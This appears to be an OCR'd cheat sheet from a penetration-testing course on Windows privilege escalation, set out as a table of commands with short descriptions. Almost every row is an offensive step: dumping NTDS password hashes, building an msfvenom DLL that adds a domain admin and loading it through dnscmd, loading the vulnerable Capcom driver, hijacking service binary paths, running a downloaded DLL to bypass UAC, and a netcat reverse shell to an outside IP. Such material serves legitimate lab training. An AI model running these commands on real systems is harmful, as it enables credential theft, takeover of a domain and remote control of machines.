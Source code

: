 |`Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ \| select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}`|Confirming changed ownership of a file|
|`icacls “C:\backups\wwwroot\web.config” /grant htb-student:F`|Modifying a file ACL|
|`secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`|Extract hashes with secretsdump.py|
|`robocopy /B E:\Windows\NTDS .\ntds ntds.dit`|Copy files with ROBOCOPY|
|`wevtutil qe Security /rd:true /f:text \| Select-String "/user"`|Searching security event logs|
|`wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 \| findstr "/user"`|Passing credentials to wevtutil|
|`Get-WinEvent -LogName security \| where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } \| Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}`|Searching event logs with PowerShell|
|`msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll`|Generate malicious DLL|
|`dnscmd.exe /config /serverlevelplugindll adduser.dll`|Loading a custom DLL with dnscmd|
|`wmic useraccount where name="netadm" get sid`|Finding a user's SID|
|`sc.exe sdshow DNS`|Checking permissions on DNS service|
|`sc stop dns`|Stopping a service|
|`sc start dns`|Starting a service|
|`reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`|Querying a registry key|
|`reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll`|Deleting a registry key|
|`sc query dns`|Checking a service status|
|`Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`|Disabling the global query block list|
|`Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3`|Adding a WPAD record|
|`cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`|Compile with cl.exe|
|`reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"`|Add reference to a driver (1)|
|`reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1`|Add reference to a driver (2)|
|`.\DriverView.exe /stext drivers.txt` and `cat drivers.txt \| Select-String -pattern Capcom`|Check if driver is loaded|
|`EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys`|Using EopLoadDriver|
|`c:\Tools\PsService.exe security AppReadiness`|Checking service permissions with PsService|
|`sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"`|Modifying a service binary path|
|`REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`|Confirming UAC is enabled|
|`REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`|Checking UAC level|
|`[environment]::OSVersion.Version`|Checking Windows version|
|`cmd /c echo %PATH%`|Reviewing path variable|
|`curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"`|Downloading file with cURL in PowerShell|
|`rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll`|Executing custom dll with rundll32.exe|
|`.\SharpUp.exe audit`|Running SharpUp|
|`icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"`|Checking service permissions with icacls|
|`cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"`|Replace a service binary|
|`wmic service get name,displayname,pathname,startmode \| findstr /i "auto" \| findstr /i /v "c:\windows\\" \| findstr /i /v """`|Searching for unquoted service paths|
|`accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services`|Checking for weak service ACLs in the Registry|
|`Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"`|Changing ImagePath with PowerShell|